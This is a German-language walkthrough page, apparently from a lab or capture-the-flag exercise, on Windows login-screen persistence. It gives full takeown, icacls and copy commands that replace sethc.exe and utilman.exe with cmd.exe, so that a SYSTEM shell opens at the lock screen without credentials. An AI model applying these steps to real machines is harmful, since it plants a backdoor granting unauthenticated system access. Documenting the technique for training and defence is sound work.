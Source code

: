 # Manipulation des Anmeldebildschirms / RDP-Zugangs

## **Persistenz über Login-Screen Backdoors (Barrierefreiheit)**

{% hint style="info" %}
Diese Techniken erfordern **physischen Zugriff** oder RDP auf die Maschine, da sie vor dem Einloggen am Sperrbildschirm ausgeführt werden. Sie nutzen Standardfunktionen von Windows zur **Barrierefreiheit**, um eine **SYSTEM-Shell ohne gültige Anmeldedaten** zu erhalten.
{% endhint %}

***

### **Sticky Keys Backdoor (sethc.exe)**

Windows ermöglicht das Aktivieren von Sticky Keys durch **5-maliges Drücken der Umschalttaste (SHIFT)**. Dabei wird folgende Datei ausgeführt:

```
C:\Windows\System32\sethc.exe
```

→ Wenn wir diese durch `cmd.exe` ersetzen, startet beim Drücken von **SHIFT x5** eine SYSTEM-Konsole – **sogar auf dem Login-Screen**.

#### Schritte:

1.  Besitz übernehmen:

    ```cmd
    takeown /f C:\Windows\System32\sethc.exe
    ```
2.  Schreibrechte setzen:

    ```cmd
    icacls C:\Windows\System32\sethc.exe /grant Administrator:F
    ```
3.  `sethc.exe` durch `cmd.exe` ersetzen:

    ```cmd
    copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
    ```
4. **Sitzung sperren (Lock)** und **5× SHIFT drücken**\
   → ➜ SYSTEM-Shell erscheint direkt am Login-Bildschirm.
5.  **Flag holen:**

    ```cmd
    C:\flags\flag14.exe
    ```

***

### **Ease of Access Backdoor (utilman.exe)**

Der Button „Ease of Access“ auf dem Login-Bildschirm startet standardmäßig:

```
C:\Windows\System32\utilman.exe
```

→ Auch diese Datei kann durch `cmd.exe` ersetzt werden, um beim Klick auf das Symbol eine SYSTEM-Shell zu öffnen.

#### Schritte:

1.  Besitz übernehmen:

    ```cmd
    takeown /f C:\Windows\System32\utilman.exe
    ```
2.  Schreibrechte setzen:

    ```cmd
    icacls C:\Windows\System32\utilman.exe /grant Administrator:F
    ```
3.  `utilman.exe` durch `cmd.exe` ersetzen:

    ```cmd
    copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
    ```
4. **Sitzung sperren** → Auf das **Ease-of-Access-Symbol klicken**\
   → ➜ SYSTEM-Konsole öffnet sich ohne Login.

***

{% hint style="danger" %}
#### Sicherheitshinweis

Beide Methoden sind extrem effektiv, aber auch auffällig. In realen Systemen sollten sie mit Vorsicht verwendet werden, da sie oft durch Sicherheitslösungen erkannt oder durch Gruppenrichtlinien blockiert sind.
{% endhint %}
